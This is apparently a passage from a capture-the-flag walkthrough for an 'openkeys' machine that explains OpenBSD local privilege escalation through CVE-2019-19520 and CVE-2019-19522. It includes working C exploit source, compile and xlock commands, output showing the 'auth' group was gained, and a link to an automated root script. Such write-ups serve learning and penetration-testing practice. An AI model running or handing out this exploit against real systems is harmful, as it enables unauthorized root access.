 **vulnerability :** On OpenBSD, /usr/X11R6/bin/xlock is installed by default and is set-group-ID "auth", not set-user-ID; the following check is therefore incomplete and should use issetugid() instead, A local attacker can exploit this vulnerability and dlopen() their own driver to obtain the privileges of the group "auth".

**Local Exploit :** CVE-2019-19522: Local privilege escalation via S/Key and YubiKey *from that same "qualys" report*

**vulnerability :** If the S/Key or YubiKey authentication type is enabled, then a local attacker can exploit the privileges of the group "auth" to obtain the full privileges of the user "root"

* so there are two exploit to get root **First** get into **"auth"** group using CVE-2019-19520 and **then** get **"root"** using CVE-2019-19522

# Root Exploit

* I found a script that automatically done that work.

  [Script](https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot)

## Manual 

### CVE-2019-19520

**First**, create `swrast_dri.c` file - 
```
openkeys$ cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF
```

**Second**, compile it - 
```diff
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

openkeys$ ls
swrast_dri.c  swrast_dri.so
```

**Third**, run - 
```diff
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[1] 56546
openkeys$ _XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root
openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
openkeys$ id
+uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)
```
